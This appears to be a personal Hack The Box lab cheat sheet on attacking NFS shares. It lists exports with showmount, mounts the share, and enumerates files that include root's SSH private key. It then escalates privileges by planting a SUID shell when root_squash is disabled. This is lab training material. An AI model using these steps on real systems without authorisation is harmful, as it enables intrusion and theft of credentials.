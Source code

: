 
### **1. Discover Available NFS Shares**

Use `showmount` to list exported shares from the target:

```bash
showmount -e <TARGET_IP>
```

**Example:**

```bash
showmount -e 10.129.14.128
```

**Output:**

```
Export list for 10.129.14.128:
/mnt/nfs 10.129.14.0/24
```

---

### **2. Mount the NFS Share**

Create a local directory, then mount the share:

```bash
mkdir target-NFS
sudo mount -t nfs <TARGET_IP>:/ ./target-NFS/ -o nolock
cd target-NFS
```

**Example:**

```bash
sudo mount -t nfs 10.129.14.128:/ ./target-NFS/ -o nolock
cd target-NFS
```

Check structure:

```bash
tree .
```

**Output:**

```
.
└── mnt
    └── nfs
        ├── id_rsa
        ├── id_rsa.pub
        └── nfs.share
```

---

### **3. Enumerate Files and Permissions**

#### **List with Usernames & Groups**

```bash
ls -l mnt/nfs/
```

**Output:**

```
-rw-r--r-- 1 cry0l1t3 cry0l1t3 1872 Sep 25 00:55 cry0l1t3.priv
-rw-r--r-- 1 cry0l1t3 cry0l1t3  348 Sep 25 00:55 cry0l1t3.pub
-rw-r--r-- 1 root     root     1872 Sep 19 17:27 id_rsa
-rw-r--r-- 1 root     root      348 Sep 19 17:28 id_rsa.pub
-rw-r--r-- 1 root     root        0 Sep 19 17:22 nfs.share
```

---

#### **List with UIDs & GIDs**

```bash
ls -n mnt/nfs/
```

**Output:**

```
-rw-r--r-- 1 1000 1000 1872 Sep 25 00:55 cry0l1t3.priv
-rw-r--r-- 1 1000 1000  348 Sep 25 00:55 cry0l1t3.pub
-rw-r--r-- 1    0 1000 1221 Sep 19 18:21 backup.sh
-rw-r--r-- 1    0    0 1872 Sep 19 17:27 id_rsa
-rw-r--r-- 1    0    0  348 Sep 19 17:28 id_rsa.pub
-rw-r--r-- 1    0    0    0 Sep 19 17:22 nfs.share
```

---

### **4. Key Notes**

- If **root_squash** is set:
    
    - Even root on the local machine **cannot modify** certain files like `backup.sh`.
        
- Matching the **usernames, groups, UIDs, and GIDs** locally allows you to **gain proper access** to the files.
    

---

### **5. Privilege Escalation Example**

If you have SSH access as a user:

1. Upload a **SUID shell** into the NFS share:
    
    ```bash
    gcc -o suid_shell suid_shell.c
    chmod +s suid_shell
    cp suid_shell ./target-NFS/
    ```
    
2. SSH into the target and run:
    
    ```bash
    ./suid_shell
    ```
    

> This only works if **root_squash** is **disabled** or **misconfigured**.

### Unmount NFS

```bash
z3tssu@htb[/htb]$ cd ..

z3tssu@htb[/htb]$ sudo umount ./target-NFS
```
